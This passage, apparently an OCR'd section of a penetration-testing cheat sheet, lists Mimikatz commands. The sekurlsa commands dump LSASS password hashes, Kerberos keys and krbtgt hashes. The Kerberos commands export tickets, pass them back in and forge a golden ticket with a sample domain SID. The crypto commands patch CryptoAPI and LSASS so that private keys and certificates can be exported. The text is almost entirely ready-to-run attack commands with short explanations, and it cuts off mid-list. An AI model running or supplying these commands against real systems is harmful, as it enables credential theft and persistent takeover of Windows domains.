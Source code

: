         -   sekurlsa::ekeys -\>ekeys

        -   sekurlsa::dpapi -\>dpapi

        -   sekurlsa::minidump lsass.dmp -\>minidump

        -   sekurlsa::Kerberos

            -   -\> Dump hashes, Kerberos passwords of authenticated
                users / services / computers

        -   sekurlsa::krbtgt

            -   -\> Dump the hashes of the Kerberos service accounts
                (krbtgt)

        -   sekurlsa:: trust / patch 

            -   -\> Dump the LSA server the relationships between
                domains and their trustkeys

    -   **Mimikatz Kerberos module**

        -   kerberos::list

            -   (== klist from a terminal) -\> Display kerberos tickets
                in memory

        -   kerberos::list /export

        -   kerberos::ptt c:\\chocolate.kirbi

        -   kerberos::golden /admin:administrateur
            /domain:chocolate.local
            /sid:S-1-5-21-130452501-2365100805-3685010670
            /krbtgt:{NTLM\_hash} /ticket:chocolate.kirbi

        -   kerberos::ptt Administrateur\@krbtgt-CHOCOLATE.LOCAL.kirbi
            -\>ptt

        -   kerberos::tgt -\>tgt

        -   kerberos::purge -\> Delete kerberos tickets in memory

    -   **Mimikatz crypto Module**

        -   crypto::capi -\> Patch CryptoAPI to make keys exportable

        -   crypto::cng -\> Patch the LSASS KeyIso service to make the
            keys exportable

        -   crypto::certificates /export -\> Export certificates

        -   crypto::certificates /export
            /systemstore:CERT\_SYSTEM\_STORE\_LOCAL\_MACHINE

        -   crypto::keys /export

        -   crypto::keys /machine /export

    -   **Mimikatz Vault & lsadump**

        -   vault::cred
